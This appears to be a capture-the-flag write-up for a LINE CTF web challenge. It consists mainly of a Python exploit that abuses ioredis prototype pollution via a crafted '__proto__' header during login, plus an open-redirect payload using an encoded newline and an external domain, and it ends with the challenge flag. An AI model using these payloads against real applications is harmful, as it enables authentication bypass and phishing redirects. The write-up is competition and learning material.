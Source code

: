 # Description

- ioredis: overwrites a `__proto__`.

```python
from requests import *
import string
from random import choices


username = ''.join(choices(string.ascii_letters, k=12))
password = "asd123k1m3klkemkd"

print(username)

s = Session()
url = "http://hhhhhhhref:3000"
url = "http://34.84.251.135:3000"
data = {"name" : username, "password" : password}
r = s.post(f"{url}/api/auth/register", data=data)
print(r.status_code)

r = s.get(f"{url}/api/auth/csrf")
csrf_token = r.json()['csrfToken']

print(csrf_token)

data = {"csrfToken" : csrf_token, "name" : username, "password" : password}
headers = {"x-user-token-key" : "__proto__", "x-user-token-value" : "b"}
r1 = s.post(f"{url}/api/auth/callback/credentials", headers=headers, data=data, allow_redirects=False)

print(r1.status_code)
print(r1.headers)
```

- Open redirect: `http://hhhhhhhref:3000/rdr?errorCode=../../../%0a//wooeong.kr/zxc`

**Flag: `LINECTF{7320a1b512380dd4e0452f9fc3166201}`**
